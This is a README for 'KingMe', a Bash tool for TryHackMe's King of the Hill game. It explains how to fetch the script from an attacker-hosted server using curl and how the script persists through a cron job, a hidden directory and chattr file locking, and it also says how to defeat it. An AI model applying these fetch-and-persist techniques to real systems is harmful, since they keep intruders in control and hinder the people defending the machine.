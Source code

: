 # KingMe
Bash script that helps you maintain your rightful place as king on any Linux box while playing
King of the Hill on TryHackMe.com

## DISCLAIMER
As far as I know, it is not against the rules of THM KotH to use a script like this.
However, I am not responsible if you get banned because you used this script.
Use at your own risk.

## How to use it
Firstly, you must be root on the KotH VM in order for this script to work. 
On your attacker machine in the same directory as KingMe, start an http server to host all the files on port 8080.
This python one-liner works pretty well for that:
`python -m http.server 8080`
Next, on the KotH VM, use curl to get the kingme.sh script like so:
`curl -o kingme.sh <attacker IP>:8080/kingme.sh`
Then, make kingme.sh executable:
`chmod u+x kingme.sh`
Finally, run kingme.sh and take your rightful place as king!

## How it works
KingMe sets up a secret working directory, and then downloads several busybox bins to that
working directory. This will allow the script to run properly even if at some point the bins
on the KotH VM are moved or messed with. The script then sets up a cron job to restart itself in 
case the user's shell is terminated or the script stops running for some reason. Finally, 
the magic happens. Every second KingMe checks /root/king.txt for your username. If it's not 
there, it puts your username in king.txt. It also locks the file with chattr making it more
difficult to edit by other players. This should maintain a player as king indefinitely, unless
another player figures out what's going on and stops it.

## How to defeat KingMe
Remove the cron job that auto starts the script, and delete the working directory that was created.
You can also just use the mount trick to make king.txt read-only.

## Future Plans
- Add counter measures for other king.txt tricks (like the mount trick)
- The little script the cron job calls is sloppy and will start the whole script over
even the downloading the bins and such. Gotta clean that up.
- Auto detect if curl and wget are on the VM and choose which one to use.
- Parse some args so this thing can be a little more dynamic.
- Re-write this REAME. It's also sloppy. But hey! It's late! Give me a break! haha

## Version Notes
- v0.1 - Initial release written after some shower thoughts late at night
- v0.2 - Added steps to rename the busybox bins and make them executable (don't know how I missed this...), added wget commands for the bins (just in case), and added some noclobber stuff. Also, updated "Future Plans" section of README.
- v0.3 - Fixed the cronjob section since it was not working and creating way too many processes
